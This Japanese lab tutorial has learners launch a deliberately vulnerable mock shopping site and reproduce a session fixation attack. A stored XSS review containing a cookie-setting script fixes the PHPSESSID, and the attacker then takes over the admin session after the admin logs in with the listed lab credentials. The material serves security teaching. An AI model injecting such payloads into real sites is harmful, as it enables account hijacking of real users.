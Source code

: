 ### 脆弱性の悪用
#### 脆弱なアプリケーションの起動

画面右下のターミナルで`docker-compose`と入力し，アプリケーションを立ち上げましょう．  
その後，画面右上の疑似ブラウザの更新ボタンを押すと脆弱なアプリケーションが表示されます。

#### 攻撃
XSSの存在するページではこの二つの攻撃が容易に行えます。
この攻撃の再現では、ECサイトをもした、XSSの存在するログインを利用し体験してもらいます。

**セッション固定化攻撃**
1.ユーザー```guest```でログインを行なってください。
```
LoginID : guest
Pssword : guest_password
```

2.```http://localhost/product.php?id=1```へ移動し、レビューに下のscriptを書き込みます。
```html
<script>document.cookie='PHPSESSID=abcd;'</script>
```

3.ユーザー```admin```でLoginを行います。
```
LoginID : admin
Pssword : Adm1n_paSsw0Rd
```

4.固定されたCookieを用いてアクセスをします。
Ex) cookieの変更方法
 -  developerToolsを利用した方法
 Windows:Mac共通 : F12 ボタン
 Mac            : commando + option + i
 手順
  developerToolsを開く → Application → Cookies → URL → PHPSESSIDを先ほど設定したものに変更
 [![developerToolsを利用した方法](https://gyazo.com/865a5d0cf15a2abaa003fcdfb6bb4fe6)](https://gyazo.com/865a5d0cf15a2abaa003fcdfb6bb4fe6)

これでAdminでLoginできたら攻撃の成功です。
